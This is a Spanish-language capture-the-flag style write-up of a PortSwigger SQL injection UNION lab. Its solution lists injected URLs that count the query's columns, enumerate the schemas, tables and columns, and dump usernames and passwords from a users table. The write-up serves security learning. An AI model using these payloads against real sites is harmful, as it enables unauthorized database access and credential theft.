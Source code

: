 # `Lab`: SQL injection UNION attack, retrieving data from other tables

- [Lab: SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

## Descripción:

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform a **SQL injection UNION attack** that retrieves all usernames and passwords, and use the information to log in as the `administrator` user. 

---

### Explicación:

- En este laboratorio ya se acerca a un escenario "real" donde a partir del SQLi debo exfiltrar datos que contengan un `username` y `password`
- Para hacer esto, en realidad ya debo **enumerar** la base de datos o `database schema`, incluyendo `data bases`, `tables`, `columns` y `data`.
- Aquí es donde ya se pueden comenzar a hacer `DIOS - Dump In One Shot` y ese tipo de travesuras.
- A travez de `querys SQL` es como debo manipular las consultas para arrojar la información que yo necesite para enumerar la `database`.
- En caso que haya `WAF - Web Application Firewall` las querys se deben manipular con diferentes tecnicas de `ofuscation`, `encoding`, etc. para lograr hacer `bypass` de ese `WAF`. _(En este laboratiorio no hay WAF)_ 

#### Query original:

````sql

````

#### Query inyectada:

````sql

````

---

### Explicación con Lab:

1.

````sql

````
````py

````



## Solución:

````py
# Original
https://666.web-security-academy.net/filter?category=Accessories

# Vulnerabilidad
https://666.web-security-academy.net/filter?category=Accessories' 

# Sanar el Query
https://666.web-security-academy.net/filter?category=Accessories' -- -

# Contando Columnas en la tabla que estoy (total = 2)
https:/666.web-security-academy.net/filter?category=Accessories' ORDER BY 2 -- -

# NOT WORKING!!! Contando Columnas en registro que estoy (total = 2) 
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT 1,2 -- -

# Working!!! Invisible - Contando Columnas en registro que estoy (total = 2) 
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT null,null -- -
# Working!!! Visible - Contando Columnas en registro que estoy (total = 2) 
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT '1','2' -- -

### DUMP: schema, tables, columns

    # OJO!!! `Depende el lado de la inyección irá el "UNION SELECT <--> schema_name"`

# Enum Databases:

## Opt1 - Dump: schema_name = DBs 
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT '1',schema_name FROM information_schema.schemata -- -
## Opt2 - Dump: schema_name = DBs
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT schema_name,'2' FROM information_schema.schemata -- -
    ### vvv-vvv-vvv-vvv-vvv-vvv-vvv
    ### [DUMP = DB = 1. pg_catalog]
    ### [DUMP = DB = 2. public]

# Enum Tables:

## Opt1 - Dump: table_name = Tables (TODAS)
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT  '1',table_name FROM information_schema.tables -- -
## Opt2 - Dump: table_name = Tables (TODAS)
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT table_name,'2' FROM information_schema.tables -- -
## Opt3 - Dump: table_name = Tables (SOLO database() en este caso 'public')
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT '1',table_name FROM information_schema.tables WHERE table_schema = 'public' -- -
## Opt4 - Dump: table_name = Tables (SOLO database() en este caso 'public')
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT table_name,'2' FROM information_schema.tables WHERE table_schema = 'public' -- -
    ### vvv-vvv-vvv-vvv-vvv-vvv-vvv
    ### [DUMP = Table = 1. users]
    ### [DUMP = Table = 2. products]

# Enum Columns:

## Opt1 - Dump: table_name = Tables (SOLO database() en este caso 'public')
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT '1',column_name FROM information_schema.columns WHERE table_schema = 'public' AND table_name = 'users' -- -
## Opt4 - Dump: table_name = Tables (SOLO database() en este caso 'public')
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT column_name,'2' FROM information_schema.columns WHERE table_schema = 'public' AND table_name = 'users' -- -
    ### vvv-vvv-vvv-vvv-vvv-vvv-vvv
    ### [DUMP = Columns = 1. password]
    ### [DUMP = Columns = 1. username]

# Dump Data:

## Opt1 - Dump "username" + "password" (usando ambos campos sin GROUP_CONCAT ni CONCAT)
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT username,password FROM users -- -
## Opt2 - Dump "username" + "password" (CONCAT)
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT '1',concat(username,' ::: ',password) FROM users -- -
## Opt3 - Dump "username" + "password" (CONCAT)
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT concat(username,' ::: ',password),'2' FROM users -- -
````










